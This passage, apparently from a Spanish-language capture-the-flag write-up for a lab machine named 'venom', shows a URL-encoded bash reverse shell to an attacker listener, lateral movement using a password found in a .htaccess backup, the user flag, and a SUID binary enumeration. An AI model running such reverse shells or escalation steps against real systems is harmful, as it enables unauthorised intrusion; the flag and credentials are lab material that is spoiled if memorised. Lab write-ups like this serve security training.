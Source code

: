 Nos ponemos en escucha y lanzamos la reverse shell: `bash -c "bash -i >%26 /dev/tcp/10.11.12.10/9001 0>%261"`

```bash
❯ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.11.12.10] from (UNKNOWN) [10.11.12.60] 59186
whoami
www-data
```

## User Pivoting

---

Somos `www-data`{: .filepath}, pero ya sabemos que existe el usuario hostinger, nos movemos a él.

```bash
www-data@venom:/var/www/html$ su - hostinger
Password:
hostinger@venom:~$
```

Listando los archivos del CMS, encontramos un archivo .htaccess con una cadena que pareciera ser la password del usuario `nathan`.

```bash
hostinger@venom:~$ cat  /var/www/html/subrion/backup/.htaccess
allow from all
You_will_be_happy_now :)
FzN+f2-rRaBgvALzj*Rk#_JJYfg8XfKhxqB82x_a

hostinger@venom:~$ su - nathan
Password:
nathan@venom:~$
```

## Escalación de privilegios

---

Listamos la user flag.

```bash
nathan@venom:~$ cat user.txt
W3_@r3_V3n0m:P
```

Listamos los binarios SUID del sistema y encontramos `find`.

```bash
nathan@venom:~/.thunderbird$ find / -perm -4000 2>/dev/null  | grep -v snap
/opt/VBoxGuestAdditions-6.1.20/bin/VBoxDRMClient
/usr/bin/find
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/arping
/usr/bin/gpasswd
/usr/bin/traceroute6.iputils
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/sudo
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/xorg/Xorg.wrap
/usr/sbin/pppd
```